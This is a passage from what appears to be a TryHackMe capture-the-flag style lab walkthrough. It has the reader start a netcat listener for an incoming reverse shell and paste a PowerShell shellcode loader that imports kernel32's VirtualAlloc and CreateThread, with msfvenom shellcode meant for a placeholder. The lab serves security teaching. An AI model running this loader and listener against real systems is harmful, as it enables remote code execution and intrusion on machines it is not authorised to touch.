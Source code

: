 On the AttackBox, execute the command `nc -nvlp 1111` to start a listener on port `1111` and wait for an incoming connection. This command opens port `1111` and listens for connections, allowing the AttackBox to receive data once a connection is made.

AttackBox Terminal

```shell
root@attackbox:~# nc -nvlp 1111 
Listening on [0.0.0.0] (family 0, port 1111) 
```

On the AttackBox, begin by navigating to the Desktop. Right-click on the `Desktop`, select `Create Document`, and then choose `Empty File`. Open this new file and paste the previously provided PowerShell script code into it. Look for the part labelled `SHELLCODE_PLACEHOLDER` and replace it with the shell code we previously created with `msfvenom`.

![creating new file sand saving shellcode](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1732683410058.png)  

Once you've added the shellcode navigate to the attached VM, open PowerShell by clicking the PowerShell icon on the taskbar and paste parts of the code from the document you recently created to the Windows PowerShell window. For example, the first part to copy and paste is the block below:

```shell
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   
```
